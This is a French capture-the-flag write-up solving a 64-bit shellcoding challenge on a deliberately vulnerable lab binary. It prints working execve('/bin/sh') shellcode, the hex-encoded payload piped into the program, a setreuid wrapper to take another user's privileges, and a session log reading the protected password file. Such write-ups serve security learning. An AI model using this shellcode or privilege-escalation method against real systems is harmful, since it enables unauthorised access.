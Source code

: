 # ELF x64 - Shellcoding - Sheep warmup

## 25 Points

### Un petit saute-moutons pour s’échauffer

## Énoncé

Le programme suivant exécutera le shellcode que vous lui fournirez ... après que des moutons s’installent dedans !

## Solution
L'objectif est de trouver un moyen d'afficher le contenu du fichier ~/.passwd. Le problème étant qu'il n'est lisible que par une personne avec le rôle challenge-ch12-cracked (1155), or on a le rôle challenge-ch12 (1154).
On nous un fichier ch12.s, qui est un code en assembleur 64-bits et un exécutable ch12 qui est le fichier ch12.s compilé. Lorsque l'on lance ch12, on tombe sur un prompt qui nous demande d'envoyer un input. On va donc prendre cela comme une faille et commencer à regarder comment est-ce qu'on pourrait faire pour qu'à partir de cet input, on puisse faire cat .passwd.

Le premier obstacle est que lorsque que l'on va donner une string en input, on va avoir un mouton qui bêle. Si on regarde bien dans le code, on va s'aperçevoir que les bytes 2 à 9 sont rempli par des "BEEEH":

```s
#  Setting up the land (the shellcode)  #
smov    $SYS_READ,      r_syscall
smov    $STDIN,         r_arg1
movq    $land,          r_arg2
smov    $LANDSIZE,      r_arg3
syscall
```

Il faut donc trouver un moyen de contourner cela.
Pour remplir toutes ces conditions, on va tout d'abord coder un fichier /tmp/new/shell.s dans lequel on va faire ceci:

```s
.section .text
.globl _start
_start:
    jmp skip_instructions
    nop
    nop
    nop
    nop
    nop
    nop
    nop

skip_instructions:
    push $0x3b
    pop %rax
    xor %rdx, %rdx
    movabs $0x68732f6e69622f2f, %r8    
    shr $0x8, %r8                    
    push %r8
    mov %rsp, %rdi
    push %rdx
    push %rdi
    mov %rsp, %rsi
    syscall
    push $0x3c
    pop %rax
    xor %rdi, %rdi
    syscall
```

Ce code fait tout d'abord un jump par dessus les 7 bytes que l'on veut skip, et rempli les rempli d'instruction de 1 byte: nop. En suite, il va faire execve("/bin/sh"). On le compile et on récupère les bytes de ce fichier:

```bash
cc -Wall -m64 -nostdlib -c shell.s
ld -N -o shell shell.o
objdump -d shell
```
Puis on fait une ligne de commande ou l'objectif est d'envoyé test.s en hexadécimal en tant qu'input:

```bash
echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" | ./ch12
```

Là, on rencontre un problème, le programme se ferme instantanemment. Pour éviter cela, on va changer la ligne de commande et rajouter ; cat pour que le shell trouve une entrée standard pour qu'il puisse se runva donc :

```bash
(echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" ; cat) | ./ch12
```

A ce moment là, on a bien un shell qui se lance, le problème est que l'on se retrouve avec le mauvais rôle, on est encore challenge-ch12. Il faut donc trouver un moyen de pour faire un setuid(1155). Pour pouvoir faire cela, on va créer une shell.c dans lequel on va faire setreuid(1155, 1155), puis lancer un shell /bin/bash:

```c
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
   setreuid(1155, 1155); // 1155 is challenge-ch12-cracked, might need to be modified for your user
   system("/bin/bash");

   return 0;
}
```
en suite, on le compile:
```bash
gcc -o aa shell.c
```

Et ici, on va chercher à le compiler avec autant de lettre que sh pour que lorsque l'on va l'appeler dans shell.s, on ne dépasse pas les 8 octets au niveau de la string. Pour cela, il faudrat aussi faire:
```bash
mv aa /tmp
```

On va donc remplacer dans shell.s, /bin/sh par /tmp/aa, ce qui donne:

```s
movabs $0x68732f6e69622f2f, %r8 #/bin/sh -> movabs $0x61612f706d742f2f, %r8 # /tmp/aa
```

on recompile tout ça, puis faire l'objdump pour récupére la string en hexadécimal et pouvoir lancer la ligne de commande:

```bash
programmation-ch12@challenge01:~$ (echo -ne "\xeb\x07\x90\x90\x90\x90\x90\x90\x90\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x74\x6d\x70\x2f\x61\x61\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05" ;cat) | ./ch12
===== Basic Shellcode Executor =====
Input shellcode: ls
Makefile  ch12  ch12.s
id
uid=1155(programmation-ch12-cracked) gid=1154(programmation-ch12) groups=1154(programmation-ch12),100(users)
cat .passwd
[censorship]
exit
```